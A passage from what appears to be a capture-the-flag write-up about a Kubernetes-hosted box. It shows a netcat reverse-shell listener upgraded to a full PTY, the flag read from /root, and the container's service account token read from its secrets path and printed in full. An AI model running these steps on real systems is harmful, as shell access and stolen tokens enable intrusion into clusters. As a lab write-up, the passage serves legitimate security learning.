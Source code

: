 

Python is on the box, so I can get a full PTY:



    which python
    /usr/bin/python
    python -c 'import pty;pty.spawn("bash")'
    root@webapp-deployment-5d764566f4-mbprj:/usr/src/app# ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    root@webapp-deployment-5d764566f4-mbprj:/usr/src/app# 



There's also `user.txt` in `/root`:



    root@webapp-deployment-5d764566f4-mbprj:~# cat user.txt 
    a34770469e2c39603b53a4dda1b9



## Shell as root in dev

### Enumeration

#### Kubernetes

I'm already root, and not on the main host. I'm in a container. Given
the signs from port 8443 above, I suspect it might be a container
managed by Kubernetes. I found [this
post](https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-1)
on pentesting Kubernetes and looked for things to look for.

#### Find Token

Kubernetes uses YAML files to define containers. I noticed in several of
the attacks, it would define a container that read from
`/run/secrets/kubernetes.io/serviceaccount/token` and used that to
`curl` the Kubernetes API on TCP 8443. For example:

![](/img/image-20210408141322775.png)

These are commands that would run inside the container, and interact
with the API. Given that I'm already in the container, I'll look for
that token. It's there:



    root@webapp-deployment-5d764566f4-mbprj:/# ls /run/secrets/kubernetes.io/serviceaccount/
    ca.crt  namespace  token
    root@webapp-deployment-5d764566f4-mbprj:/# cat /run/secrets/kubernetes.io/serviceaccount/token 
    eyJhbGciOiJSUzI1NiIsImtpZCI6IkpOdm9iX1ZETEJ2QlZFaVpCeHB6TjBvaWNEalltaE1ULXdCNWYtb2JWUzgifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJkZWZhdWx0Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZWNyZXQubmFtZSI6ImRlZmF1bHQtdG9rZW4tZ3YycHEiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC5uYW1lIjoiZGVmYXVsdCIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VydmljZS1hY2NvdW50LnVpZCI6IjQwODNiNTAyLWU0ZGMtNGZiMC1iNzU1LTY0ZmU3ZGVkMzcxNSIsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0OmRlZmF1bHQifQ.mmkqCtOB3qHPkdybHAJuaLGpQk01UGqecZZO9TfMMeO02PO2CfXoeuRyR1I0BDmyJlxuzuDZdl0k6i0AsQF4DU3Ow_Rm-YZ5cIWDVV3tfuWIA0PvJsmlJqDC4X4OmbOIULLw4i5ckWO_0I35OhlRRLumnaRRrJKFaRnWA1H-zRyAPF3fBGtUuFJecHLNTOaDMyffvBCcblT5z4jjC7V4jKKG05NUNY4UNvvtCiFfevoeTfUzJ4L2dFtkOkHV8k_nC__eJu-CqOvLQlNAWgnJvhNLry_5IVGPxos80R0IC8gOto5bFx0WsSj5av56ff_1UsnDD68IG9uHdinOZC4xvA
